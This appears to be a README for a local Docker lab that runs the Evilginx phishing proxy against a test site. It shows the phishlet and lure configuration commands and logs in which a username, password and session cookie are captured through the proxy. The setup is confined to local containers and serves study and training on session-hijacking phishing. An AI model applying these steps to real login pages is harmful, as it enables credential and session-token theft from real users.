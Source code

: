 # Evilginx LAB on Docker
![back](evil-dock.jpg)
## build & run the containers
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	
Verify if they run:

	docker ps -a
	CONTAINER ID   IMAGE                     COMMAND                  CREATED         STATUS         PORTS                                                                              NAMES
	d7bc39548885   evilginx_lab_evilginx2    "/bin/bash -l"           8 seconds ago   Up 6 seconds   0.0.0.0:443->443/tcp, :::443->443/tcp, 0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   evilginx3.local
	6d5eac2940a7   evilginx_lab_apache-php   "apachectl -D FOREGR…"   8 seconds ago   Up 6 seconds   80/tcp, 443/tcp                                                                    targetsite.local



## stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
## access a container

	sudo docker exec -it <container name> /bin/bash

## check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## see logs

	sudo docker logs <container name>
	
## show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/evilginx3.local - 172.18.0.10






## Start evilnginx
```bash 
sudo docker exec -it evilginx3.local /bin/bash 
root@bd1cc49349a5:/evilginx2# ./evilginx2 -developer

                                         
___________      __ __           __               
\_   _____/__  _|__|  |    ____ |__| ____ ___  ___
|    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
|        \\   /|  |  |__/ /_/  >  |   |  \>    < 
/_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
     \/              /_____/         \/      \/

        - --  Community Edition  -- -

by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[16:02:29] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[16:02:29] [inf] loading phishlets from: /evilginx2/phishlets
[16:02:29] [inf] loading configuration from: /root/.evilginx
[16:02:29] [inf] blacklist mode set to: unauth
[16:02:29] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[16:02:29] [inf] https port set to: 443
[16:02:29] [inf] dns port set to: 53
[16:02:29] [inf] autocert is now enabled
[16:02:29] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[16:02:30] [war] server domain not set! type: config domain <domain>
[16:02:30] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  
| example           | disabled  | visible     |           |             |                                                                                                                                                                  
| targetsite-local  | disabled  | visible     |           |             |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  

:  


```
                                        
## Config Evilngnix container

	: config domain evilginx3.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local evilginx3.local
	: phishlets get-hosts targetsite-local 

		172.18.0.10 login.evilginx3.local
		172.18.0.10 evilginx3.local
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
	: lures get-url 0
		
		https://login.evilginx3.local/eiyTwTXQ

## Captured the session token
```bash 

: 2024/12/04 16:14:15 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[16:14:23] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (10.0.2.15)
[16:14:23] [inf] [0] [targetsite-local] landing URL: https://login.evilginx3.local/eiyTwTXQ
[16:15:04] [+++] [0] Username: [adasdas]
[16:15:04] [+++] [0] Password: [dsdsdsd]
[16:15:45] [+++] [0] Username: [admin]
[16:15:45] [+++] [0] Password: [Pwd Sicur@ 123]
[16:15:45] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip  |       time        |                                                                                                                                      
+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+                                                                                                                                      
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 10.0.2.15  | 2024-12-04 16:15  |                                                                                                                                      
+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+          

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.evilginx3.local/eiyTwTXQ
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 10.0.2.15
 create time  : 2024-12-04 16:14
 update time  : 2024-12-04 16:15

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764865104,"value":"sibi2d083ecfn4shbco7i1ro5d--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]

```


